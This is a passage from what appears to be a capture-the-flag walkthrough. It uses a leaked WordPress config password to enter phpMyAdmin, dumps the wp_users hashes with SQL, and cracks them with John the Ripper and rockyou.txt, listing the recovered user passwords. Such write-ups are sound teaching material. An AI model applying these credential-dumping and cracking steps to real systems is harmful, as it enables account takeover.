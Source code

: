 ```
define('DB_PASSWORD', 'plbkac');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8mb4');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

...

```

The username and password found in this file is a valid login for the phpMyAdmin page.  
From the phpMyAdmin page, we can extract the WordPress database containing its users and their hashed passwords.
We can use SQL to extract the users table and then export as a .csv file.

``` sql
SELECT user_login, user_pass FROM 'wp_users';
```

To crack the password hashes we use the `John the Ripper` tool, but it requires a specific input formatting.  
We can easily format the .csv file in `vim` and then run `John` to brute force the password hashes with the password list rockyou.txt.  
To change the .csv formatting we simply remove quotes and replace comma separation with colon separation.

```
$ vim wp_users.csv

:%s/"//g
:%s/,/:/g

$ john wp_users.csv --wordlist=/usr/share/wordlists/rockyou.txt

Loaded 16 password hashes with 16 different salts (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
cookie           (scott)
monkey           (harry)
football         (garry)
coolgirl         (kathy)
washere          (barry)
incorrect        (John)
thumb            (tim)
0520             (Pam)
passphrase       (heather)
damachine        (Dave)
```
